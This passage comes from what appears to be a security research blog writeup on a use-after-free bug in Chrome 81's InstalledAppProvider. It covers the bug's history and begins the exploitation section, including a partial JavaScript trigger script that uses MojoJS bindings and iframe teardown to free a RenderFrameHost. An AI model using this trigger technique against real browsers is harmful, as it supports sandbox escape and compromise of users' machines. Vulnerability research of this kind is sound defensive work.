 When the `FilterInstalledApps` method is invoked, a virtual function call is made on this raw pointer:

```c++
void InstalledAppProviderImpl::FilterInstalledApps(
    std::vector<blink::mojom::RelatedApplicationPtr> related_apps,
    const GURL& manifest_url,
    FilterInstalledAppsCallback callback) {
  if (render_frame_host_->GetProcess()->GetBrowserContext()->IsOffTheRecord()) {
    std::move(callback).Run(std::vector<blink::mojom::RelatedApplicationPtr>());
    return;
  }

  ...
}
```

So if this method is invoked after the `RenderFrameHost` has been freed, a use-after-free will occur.

### A Bug's Life

This bug was introduced in [this commit][commit introduced]{:target="_blank"}, which landed in Chrome 81.0.4041.0. A few weeks later, the bug was coincidentally moved behind an experimental command line flag in [this commit][commit moved]{:target="_blank"}. However, this change landed in Chrome 82.0.4065.0, so the bug would have been reachable on all Desktop platforms in Chrome Stable 81.

## Exploitation

### Triggering the bug

While it may be possible to trigger the bug from pure JavaScript, it almost certainly would not be exploitable. Instead, we'll simulate a compromised renderer process by enabling the MojoJS blink bindings (with `--enable-blink-features=MojoJS` on the Chrome command line). These bindings expose the Mojo platform directly to JavaScript, allowing us to bypass the Blink bindings entirely. Note that these bindings can be enabled by a compromised renderer process by flipping a bit in memory and then creating a new JavaScript context, so our exploit code could easily be used in a bug chain.

As a first attempt to trigger the bug, we used the approach from [a similar bug report][similar bug]{:target="_blank"}. The idea is to have the top frame spawn a few subframes, each of which will acquire handles to a bunch of `InstalledAppProvider` instances for their frame. The subframes call `filterInstalledApps` repeatedly to clog the Mojo message pipes. After a few seconds, the top frame will remove the subframes, causing the backing `RenderFrameHost`s to be freed. This also causes a connection error on the `InstalledAppProvider` `MessagePipe`s, but the hope is that the connection error will not be processed until after a `filterInstalledApps` call dereferences the freed pointer.

We create a page with the following script:

```javascript
function allocate_rfh() {
  var iframe = document.createElement("iframe");
  iframe.src = window.location + "#child"; // designate the child by hash
  document.body.appendChild(iframe);
  return iframe;
}
function deallocate_rfh(iframe) {
  document.body.removeChild(iframe);
}
if (window.location.hash == "#child") {
  var ptrs = new Array(4096).fill(null).map(() => {
    var pipe = Mojo.createMessagePipe();
    Mojo.bindInterface(blink.mojom.InstalledAppProvider.name,
                       pipe.handle1);
    return new blink.mojom.InstalledAppProviderPtr(pipe.handle0);
  });
  setTimeout(() => ptrs.map((p) => {
```

[bug report]: https://bugs.chromium.org/p/chromium/issues/detail?id=1062091
[process diagram]: https://docs.google.com/drawings/d/1TuECFL9K7J5q5UePJLC-YH3satvb1RrjLRH-tW_VKeE/edit
[site isolation]: https://www.chromium.org/Home/chromium-security/site-isolation
[mojo docs]: https://chromium.googlesource.com/chromium/src.git/+/master/mojo/README.md
[mojo rename]: https://bugs.chromium.org/p/chromium/issues/detail?id=955171
[similar bug]: https://bugs.chromium.org/p/chromium/issues/detail?id=977462
[commit introduced]: https://chromium.googlesource.com/chromium/src/+/0002875db334deb69d41f74adc15ad40089f04c5%5E%21/#F0
[commit moved]: https://chromium.googlesource.com/chromium/src/+/d37dc2558a7c841c8439f0cae4dfa5807e56f61e
[blob api]: https://developer.mozilla.org/en-US/docs/Web/API/Blob
[vtable post]: https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/
[generic blob diagram]: /assets/images/2020-04-20/GenericBlobDiagram.png
[bindstate blob diagram]: /assets/images/2020-04-20/BindStateBlobDiagram.png
[virtually unlimited memory]: https://googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html